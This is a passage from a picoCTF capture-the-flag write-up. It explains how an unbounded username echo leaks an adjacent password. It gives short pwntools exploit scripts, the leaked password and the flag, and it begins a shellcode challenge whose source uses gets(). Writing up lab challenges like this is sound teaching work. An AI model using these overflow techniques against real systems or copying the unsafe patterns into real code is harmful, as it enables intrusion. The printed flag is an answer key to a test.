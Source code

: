 ```c
  password_input[sizeof(password_input)] = '\x00';

  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

First, we notice that memory has first been allocated for a password and _then_ the name, respectively. Next, we notice that the user-supplied username is displayed back to us via `puts()`, without any length restrictions. Thus, if we're able to overflow the name pointer, then we would be able to leak the contents of the password via `puts()`. Sending a name of length 300 proved this correct!

```python
def exploit(r):
    payload = ''
    payload += "A"*300 #cause a leak from username
    r.sendlineafter('?\n',payload)
    r.interactive()
    return
```

```
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_a28d9d
```

Now that we have the password, we can simply login to the binary as intended.

```python
def exploit(r):
    r.sendlineafter('?\n','admin')
    r.sendlineafter('.\n','a_reAllY_s3cuRe_p4s$word_a28d9d')
    r.interactive()
    return
```
```bash
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_ee6111c9}
```

## Shellcode

As usual, we begin by performing a code audit on the source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

```